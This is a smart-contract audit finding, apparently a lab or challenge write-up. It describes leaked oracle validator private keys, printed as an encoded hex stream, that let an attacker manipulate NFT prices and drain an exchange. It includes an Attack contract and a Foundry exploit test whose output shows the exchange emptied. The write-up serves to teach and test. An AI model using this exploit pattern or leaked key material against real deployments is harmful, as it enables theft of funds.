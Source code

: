 # Critical Severity Issues

## [C-1] Private Key Leak Leading to Oracle Manipulation

**Description:** An HTTP request revealed a suspicious hex value stream, which a malicious actor decoded into private keys. These keys belong to two of the three NFT oracle validators responsible for updating NFT prices. The `Exchange` contract uses these prices as an oracle for buying and selling NFTs. A malicious user can exploit these private keys to set the NFT price to 0, purchase the NFT for 0.1 ETH, immediately update the price to a high value, and then sell the NFT back to the exchange, profiting significantly in ETH.

```javascript
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```

**Manipulated Function in `TrustfulOracle.sol`**

```javascript
function postPrice(string calldata symbol, uint256 newPrice) external onlyRole(TRUSTED_SOURCE_ROLE) {
    _setPrice(msg.sender, symbol, newPrice);
}

function _setPrice(address source, string memory symbol, uint256 newPrice) private {
    uint256 oldPrice = _pricesBySource[source][symbol];
    _pricesBySource[source][symbol] = newPrice;
    emit UpdatedPrice(source, symbol, oldPrice, newPrice);
}
```

**Impact:** An attacker decoded the hex stream into private keys and manipulated the oracle price for NFTs, enabling significant financial gain through price manipulation.

**Attack Contract:**

```javascript
contract Attack {
    TrustfulOracle oracle;
    Exchange exchange;
    uint256 tokenId;

    constructor(TrustfulOracle _oracle, Exchange _exchange) {
        oracle = _oracle;
        exchange = _exchange;
    }

    function buy() public {
        tokenId = exchange.buyOne{value: 0.1 ether}();
    }

    function sell() public {
        exchange.token().approve(address(exchange), tokenId);
        exchange.sellOne(tokenId);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }

    receive() external payable {}
}
```

**Proof of Concept:**

1. The attacker receives the hex stream via HTTP.\\
2. Decodes the hex stream to obtain private keys.\\
3. Manipulates the oracle NFT price.\\
4. Buys the NFT at a low price (0.1 ETH).\\
5. Instantly updates the oracle price to a high value.\\
6. Sells the NFT at the high price on the exchange.\\

**Proof of Code:**

```javascript
function testAttack() public {
    // Assume the attacker decoded the data and obtained private keys
    // source1 and source2 are the validators the attacker now controls
    vm.startPrank(source1);
    trustfulOracle.postPrice("DVNFT", 0);
    vm.startPrank(source2);
    trustfulOracle.postPrice("DVNFT", 0);

    vm.deal(address(attacker), 10 ether);
    vm.startPrank(address(attacker));
    attacker.buy();
    vm.stopPrank();

    vm.startPrank(source1);
    trustfulOracle.postPrice("DVNFT", 1000 ether);
    vm.startPrank(source2);
    trustfulOracle.postPrice("DVNFT", 1000 ether);

    vm.startPrank(address(attacker));
    attacker.sell();
    vm.stopPrank();

    console2.log(address(attacker).balance); // 1.01e21
    console2.log(address(exchange).balance); // 0
}
```

**Recommended Mitigation:**

1. Always secure private keys properly.
2. Avoid using `.env` files for sensitive data.
3. Do not store private keys online or in publicly accessible locations.
4. Implement multi-signature wallets or other secure key management practices.
